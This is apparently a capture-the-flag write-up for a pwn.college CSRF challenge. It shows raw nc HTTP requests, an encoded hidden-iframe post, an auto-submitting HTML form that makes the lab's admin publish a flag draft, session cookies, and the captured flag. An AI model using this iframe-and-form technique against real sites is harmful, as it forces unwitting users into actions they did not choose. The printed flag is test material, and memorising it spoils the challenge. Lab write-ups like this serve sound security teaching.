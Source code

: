 # CSRF-2 Write-up — pwn.college

## 🔍 Challenge Description

A web application simulates a blogging platform (`pwnpost`) where users can:

- Log in
- Draft and publish posts
- View others’ published content

Admin has a secret flag post in the database. Although the admin doesn't view user messages (avoiding XSS), they *do* visit attacker-controlled pages via an automated `/challenge/victim` visit.

Our goal is to **leverage CSRF to force the admin to publish their draft post**, which contains the flag.

---

## 🖥️ Server Code Analysis

Key endpoints:

- `/login`: Logs in a user using form-based POST credentials
- `/draft`: Allows logged-in users to submit posts
- `/publish`: Publishes **all posts by the logged-in user**
- `/`: Shows UI depending on session status

Key points:

- Admin is logged in during `/challenge/victim`
- `/publish` is a **POST-only endpoint**
- There’s **no CSRF protection**

---

## ✅ Exploit Steps

### 1. Log in as `hacker` to craft payload

```bash
printf "POST /login HTTP/1.0\r\nHost:challenge.localhost\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:29\r\n\r\nusername=hacker&password=1337" | nc challenge.localhost 80
```
Retrieve the session cookie:
```
session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH4tIg.UeFfsKiEUJQZu6_SbF0Hb4vk7Ww
```

### 2. Submit a malicious iframe post
Encoded payload:
```bash
PAYLOAD="content=%3Ciframe%20src%3D%22http%3A//hacker.localhost%3A1337/%22%20width%3D%220%22%20height%3D%220%22%3E%3C/iframe%3E&publish=on"
LENGTH=$(echo -n "$PAYLOAD" | wc -c)
```
### Send POST to /draft:
```bash
echo -e "POST /draft HTTP/1.0\r
Host: challenge.localhost\r
Cookie: session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH4tIg.UeFfsKiEUJQZu6_SbF0Hb4vk7Ww\r
Content-Type: application/x-www-form-urlencoded\r
Content-Length: $LENGTH\r
\r
$PAYLOAD" | nc challenge.localhost 80
```
This results in a published iframe pointing to your server.

### 3. Create CSRF exploit server
Create index.html:
```bash
<!DOCTYPE html>
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://challenge.localhost/publish" method="POST">
      <!-- Auto-submits -->
    </form>
  </body>
</html>
```
Start your malicious server:
```
python3 -m http.server 1337
```

### 4. Trigger the victim visit
```
/challenge/victim
```

### Admin flow:
- Logs in as admin
- Visits the attacker's iframe
- Submits the CSRF POST /publish
- Publishes their draft post with the flag

---

## Retrieve the Flag
Log back in as hacker and visit /:
```bash
curl -b "session=eyJ1c2VybmFtZSI6ImhhY2tlciJ9.aH4tfg.rRFVHW69ulYXVAW3mxmrGqfUh9o" http://challenge.localhost/
```
Check for the admin's published post:
```bash
<h2>Author: admin</h2>
pwn.college{sF0dTAIN8Gb6lmmbHg5UEdKy78_.QX4kzMzwSM0IzMyEzW}
```

### Final Flag
```
pwn.college{sF0dTAIN8Gb6lmmbHg5UEdKy78_.QX4kzMzwSM0IzMyEzW}
```

---

